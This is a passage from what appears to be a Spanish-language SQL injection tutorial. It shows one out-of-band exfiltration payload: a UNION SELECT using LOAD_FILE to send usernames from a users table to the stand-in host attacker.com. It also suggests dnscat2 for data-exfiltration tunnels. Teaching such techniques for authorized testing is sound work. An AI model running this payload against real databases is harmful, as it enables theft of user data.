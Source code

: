    ```sql
   ' UNION SELECT 1,LOAD_FILE(CONCAT('\\\\attacker.com\\',username)) FROM users --+
   ```
   
3. **Captura las solicitudes en Wireshark o tcpdump.**

📌 **💡 Consejo:** **Usa herramientas como dnscat2 para túneles de exfiltración de datos.**

# **📌 CONCLUSIÓN**

✅ **Has completado técnicas avanzadas de SQLi.**
🚀 **Ahora puedes probar estas habilidades en entornos reales con autorización.**

![M2](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%203%402Menbrete2.png)

